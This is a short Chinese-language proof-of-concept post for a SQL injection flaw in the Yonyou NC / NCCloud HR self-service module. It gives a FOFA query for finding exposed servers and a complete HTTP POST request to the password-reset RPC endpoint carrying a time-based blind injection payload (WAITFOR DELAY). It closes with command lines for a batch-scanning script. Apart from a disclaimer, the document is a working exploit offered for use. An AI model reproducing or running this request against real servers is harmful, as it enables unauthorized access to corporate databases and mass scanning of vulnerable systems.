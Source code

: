 # 用友NC  存在sql注入\

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa："NCCloud"

POC:

POST /hrss/dorado/smartweb2.RPC.d?__rpc=true HTTP/1.1
Host: 192.168.100.1:8091
Pragma: no-cache
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.100.1:8091
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Referer: http://192.168.100.1:8091/hrss/ResetPwd.jsp
Cookie: JSESSIONID=C2CFFE1429FF812ABF357C2BDD5BDBC1.server; JSESSIONID=8FEF31DBA1E3188706B14123C6D1CE87.server
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Length: 672

__type=updateData&__viewInstanceId=nc.bs.hrss.login.ResetPassword~nc.bs.hrss.login.ResetPasswordViewModel&__xml=%3Crpc%20transaction%3D%2210%22%20method%3D%22resetPwd%22%3E%3Cdef%3E%3Cdataset%20type%3D%22Custom%22%20id%3D%22dsResetPwd%22%3E%3Cf%20name%3D%22user%22%3E%3C/f%3E%3Cf%20name%3D%22ID%22%3E%3C/f%3E%3C/dataset%3E%3C/def%3E%3Cdata%3E%3Crs%20dataset%3D%22dsResetPwd%22%3E%3Cr%20id%3D%2210009%22%20state%3D%22insert%22%3E%3Cn%3E%3Cv%3E1';WAITFOR DELAY '0:0:6'--%3C/v%3E%3Cv%3E11111111111111111111%3C/v%3E%3C/n%3E%3C/r%3E%3C/rs%3E%3C/data%3E%3Cvps%3E%3Cp%20name%3D%22__profileKeys%22%3EfindPwd%253B15b021628b8411d33569071324dc1b37%3C/p%3E%3C/vps%3E%3C/rpc%3E&1700109885028





批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

